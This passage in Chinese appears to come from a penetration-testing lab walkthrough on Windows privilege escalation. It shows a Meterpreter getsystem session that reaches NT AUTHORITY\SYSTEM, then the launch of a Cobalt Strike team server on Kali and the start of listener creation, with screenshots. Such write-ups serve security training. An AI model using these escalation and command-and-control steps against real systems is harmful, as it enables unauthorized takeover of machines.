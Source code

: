
## 权限提升

### 法一：MSF

```
meterpreter > getuid
Server username: GOD\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 法二：使用CS模块 (含渗透)

先将CS服务端开起来

```shell
┌──(root㉿kali)-[/home/kali/Desktop/csrun]
└─# ./teamserver  
[*] Generating X509 certificate and keystore (for SSL)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[*] ./teamserver <host> <password> [/path/to/c2.profile] [YYYY-MM-DD]

        <host> is the (default) IP address of this Cobalt Strike team server
        <password> is the shared password to connect to this server
        [/path/to/c2.profile] is your Malleable C2 profile
        [YYYY-MM-DD] is a kill date for Beacon payloads run from this server

                                                                                     
┌──(root㉿kali)-[/home/kali/Desktop/csrun]
└─# ./teamserver 192.168.220.137 123456
[*] Will use existing X509 certificate and keystore (for SSL)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Team server is up on 0.0.0.0:50050
[*] SHA256 hash of SSL cert is: b72145ea2b81b84481d743de0a082e74bd6a942fd5ba06cc35cc35dc8804b90d

```

然后打开CS

![image-20220812193821408](./st1.assets/image-20220812193821408.png)

![image-20220812193829530](./st1.assets/image-20220812193829530.png)

创建监听器

> 两个IP都填kali的IP就行

![image-20220813012832949](./st1.assets/image-20220813012832949.png)
